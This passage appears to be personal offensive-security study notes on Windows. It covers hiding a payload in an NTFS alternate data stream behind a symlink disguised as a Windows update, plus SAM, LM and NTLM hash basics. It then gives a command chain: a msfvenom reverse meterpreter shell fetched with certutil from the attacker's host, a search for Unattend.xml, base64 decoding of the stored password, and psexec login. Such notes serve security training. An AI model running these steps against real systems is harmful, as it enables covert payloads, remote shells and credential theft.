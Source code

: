         > ==_That will put the output of the execution of the payload file into the winpise.exe and hidden the winpise.exe in resources stream of the windowslogs.txt file ._==
        
        1. Now we can make a symbolic link , so when we navigate the symbolic the payload will execute ⇒ _`==mklink winupdate.exe c:\\Temp\windowslogs.txt:winpise.exe==`_
        
        > that will create a symbolic link that refera to the windows update file , so when i type a command or open the file winpdate.exe the payload will execute .
        
        1. now if we type the command ⇒ winupdate.exe , we will see the winpise.exe file execute and start to enum the windows .
        
    
      
    
      
    
    ### ==_**Windows Credential Dumping**_==
    
      
    
    - ==**Windows Password Hashes**==
    
    > Windows store the users password hashed on SAM database (security account manager database)
    
    > SAM DataBases (security account manager) is a database file that responspel for managing user account and password on windows , all users password stored hashed
    
    > LSA ( local security authority)
    
    > LM (LanMan) ⇒ is the defult hash algorthem that used in windows operating system , all 7 char chunks in password is in upper case ,
    
    > as we see the password spilt to 2 chunks , each chunks is 7 upper case char , then with DES algorthem , then provided us with to hashes in LM hash
    
      
    
    > NTLM (NTHASH) ⇒ is colloction of authentication protocols that are utilized in windows to facilitate authentication between computers , is use MD4 ⇒ dose not spilt the password to 2 chunks , is case sensitive
    
    > the configration file in windows called ⇒ Unattend.xml or Autounattend.xml
    
      
    
    - ==_Searching For Passwords In Windows Configuration Files_==
        
        1. now we need first to gain access to the target system by using any exploit that target this windows
        2. First we need to gain access to the target windows system ⇒ `msfvenom -p windows/x64/meterpreter/revers_tcp LHOST=<your ip> LPORT=1234 -f exe >payload.exe`
        3. now open a python http server ⇒ `python -m SimpleHTTPServer 80`
        4. now in windos target system we need to transfer the payload ⇒ `certutil -urlcache -f http://<your kali ip>/payload.exe payload.exe`
        5. `msfconsole` && `use multi/handler` && `set payload windows/x64/meterpreter/revers_tcp` && `set lhost <your ip >` && `set lport 1234`
        6. now open the payload in windows target system
        7. now search for Unattend.xml ⇒ in meterpreter session ⇒ `search -f Unattend.xml` then downl7oad it
        8. now in bottom of the file u will see the username and the password , so copy the password and put it in new file , then ⇒ `base64 -d password.txt` , u will see the password in clear text
        9. now using `[psexec.py](http://psexec.py)` `Username@targetip , then enter the password`
        